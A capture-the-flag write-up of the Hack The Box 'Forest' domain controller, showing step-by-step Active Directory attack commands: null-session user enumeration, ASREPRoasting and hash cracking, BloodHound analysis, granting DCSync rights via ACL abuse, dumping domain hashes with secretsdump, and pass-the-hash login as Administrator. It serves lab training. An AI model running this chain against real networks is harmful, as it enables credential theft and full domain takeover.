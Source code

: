 +++
title = "HTB - Forest"
date = "2024-11-16T00:00:00+00:00"
tags = ["ctf", "htb", "active directory", "asreproasting", "bloodhound", "dcsync"]
description = "Writeup for the 'Easy' rated machine: Forest"
+++

{{<lead>}}
Forest in an easy difficulty Windows Domain Controller. We are able to enumerate domain users through a NULL session. Once we have our list of users, we notice that there is a service account `svc-alfresco`, we then decide to check if there are any account with kerberos pre-authentication enabled. We discover that we are able to get the hash for that service account (ASREPRoasting) and easily crack it, thus gaining a foothold in the domain. We then enumerate the domain with bloodhound just to find that this user has some interesting group memberships and privileges eventually allowing us to perform DCSync and get the Administrator NTLM hash which we then use with winrm to gain an Administrator shell.
{{</lead>}}

## Port Scanning

```bash
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-11-16 21:23:22Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49681/tcp open  msrpc        Microsoft Windows RPC
49698/tcp open  msrpc        Microsoft Windows RPC
50033/tcp open  msrpc        Microsoft Windows RPC
```

From the scan results, we got the domain name (`htb.local`) as well as the hostname of the machine (`FOREST`). We can add them to our host file:

```bash
echo -e "10.129.30.97\tFOREST FOREST.htb.local htb.local" >> /etc/hosts
```

## Foothold

### User Enumeration

First let's see if we can enumerate users with `rpcclient` by leveraging a SMB null session:

```bash
rpcclient -N -U "" 10.129.30.97

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

We could have also used `netexec` for this purpose:

```bash
nxc smb 10.129.30.97 -u '' -p '' --users
```

We got back a few users:

```text
Administrator
krbtgt
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

Let's note them somewhere and move on.

### ASREPRoasting

Now that we have a list of users, we could try multiple things such as password spraying for example, but there are other things we could try first. For instance, let's see if among our list of users account there are some that do not require kerberos pre-authentication:

```bash
impacket-GetNPUsers htb.local/ -usersfile users -format hashcat -outputfile asrep_hashes.out

Impacket v0.11.0 - Copyright 2023 Fortra

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:5f9...<SNIP>...63836d7
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

As we can see, the service account `svc-alfresco` does not require kerberos pre-authentication, hence we making it vulnerable to ASREPRoasting.

More on ASREPRoasting -> [https://www.thehacker.recipes/ad/movement/kerberos/asreproast](https://www.thehacker.recipes/ad/movement/kerberos/asreproast)

We can now try to crack it with hashcat:

```bash
hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt
```

{{<figure src="/img/htb/forest/cracked_hash_svcalfresco.png" position=center caption="svc-alfresco password cracked !">}}

Now that we have the password for `svc-alfresco`, let's try to login via winrm:

```bash
evil-winrm -i 10.129.30.97 -u svc-alfresco -p <PASSWORD>
```

We successfully logged in and was able to retrieve the user flag at `C:\Users\svc-alfresco\Desktop\user.txt`

{{<figure src="/img/htb/forest/user_flag.png" position=center caption="User flag obtained !">}}

### Privilege Escalation

Now that we have a foothold in the domain, let's use [bloodhound-python](https://github.com/dirkjanm/BloodHound.py) in order to collect information about the domain that we can than visualize after:

```bash
# Collecting data
bloodhoud-python -u svc-alfresco -p <PASSWORD> -ns 10.129.30.97 -d htb.local -c all
# Zipping the json output files
zip -r data.zip *.json
```

Now that we have our zip file ready, we can start bloodhound and upload the file. After going through the results, we notice that `svc-alfresco`, through nested group memberships, is in the `Account Operators` group which has `GenericAll` privilege on the `Exchange Windows Permissions` group which then have the `WriteDacl` privilege over the domain object.

{{<figure src="/img/htb/forest/bloodhound.png" position=center caption="Path for privilege escalation">}}

With this information, we can do the following:
- Create a new domain user.
- Add that user to the `Exchange Windows Permissions` group by abusing our `GenericAll` privilege.
- As the new user, add `DCSync` privileges to our self by abusing the `WriteDacl` privilege.
- Dump all the hashes

```powershell
# Creating a new domain user (as svc-alfresco)
net user hackerr password123! /add /domain

# Add 'hackerr' to the Exchange Windows Permissions group
net group "Exchange Windows Permissions" hackerr /add

# Add DCSync privileges with
$pass = ConvertTo-SecureString 'password123!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb.local\hackerr', $pass)
Add-ObjectACL -PrincipalIdentity hackerr -Credential $cred -Rights DCSync
```

Now `hackerr` should have DCSync rights. We can verify by using using impacket's secretsdump:

```bash
impacket-secretsdump htb.local/hackerr:'password123!'@10.129.30.97 -just-dc -outputfile dcsync.out
```

{{<figure src="/img/htb/forest/dcsync.png" position=center caption="DCSync">}}

We can use the Administrator's NThash to login via `winrm`:

```bash
evil-winrm -i 10.129.30.97 -u Administrator -H '32693b11e6aa90eb43d32c72a07ceea6'
```

We can then retrive the root flag.

{{<figure src="/img/htb/forest/root_flag.png" position=center caption="Root flag obtained !">}}

